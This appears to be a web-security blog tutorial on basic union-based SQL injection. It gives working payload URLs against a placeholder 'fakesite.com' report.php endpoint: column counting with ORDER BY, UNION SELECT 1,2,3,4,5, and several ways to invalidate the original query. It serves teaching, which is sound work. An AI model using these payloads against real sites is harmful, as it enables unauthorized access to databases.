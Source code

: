 ```yaml
---
coverImage: "network_for_hackers.jpg"
title: Basic Union Based Injection
date: 2017-02-25
author: Abhinav Kumar
image: {
  src: "/images/SQli.jpg",
  alt: "SQL Injection",
}
description: Basic Union Based Injection. In this tutorial we will learn how to inject Union based injection.
draft: false
category: WebAppSec
---
```


SQL Injection Basic Union Based Injection. In this tutorial we will learn how to inject Union based injection.

In our last tutorial we learnt how to find out the number of columns used under the query so that we can use Union select statement. So we will continue that same url and same injection we were injecting. In the last tutorial we found that the vulnerable URL is having 5 numbers of columns and the below query was working.


```
http://fakesite.com/report.php?id=23 order by 5--+
```

Now we will use Union select statement over here.

```
http://fakesite.com/report.php?id=23 union select 1,2,3,4,5--+
```

what will it do is concatenate one more row to the output which will look like this

```
| column1 | column2 | column3 | column4 | column5 |
| --- | --- | --- | --- | --- |
| anydata | anydata | anydata | anydata | anydata |
| 1 | 2 | 3 | 4 | 5 |
```

Here a small understanding of the web application is required, If you see any of these numbers printed in the webpage or the title or anywhere else then you can know the the developer is printing multiple rows. But in case you can not see any of these numbers printed then you can simply invalidate the first query so that it wont give any output and eventually your output will become the one and only output to be printed.

```
http://fakesite.com/report.php?id=23 and 0 union select 1,2,3,4,5--+
http://fakesite.com/report.php?id=23 and false union select 1,2,3,4,5--+
http://fakesite.com/report.php?id=-23 union select 1,2,3,4,5--+
http://fakesite.com/report.php?id=23000000 union select 1,2,3,4,5--+
http://fakesite.com/report.php?id=null union select 1,2,3,4,5--+
http://fakesite.com/report.php?id=23 && 0 union select 1,2,3,4,5--+
```
Above i have specified some ways to make a query invalid but remember that & should be url encoded before usage. Now when we will use any of the above query, one row will come in output.
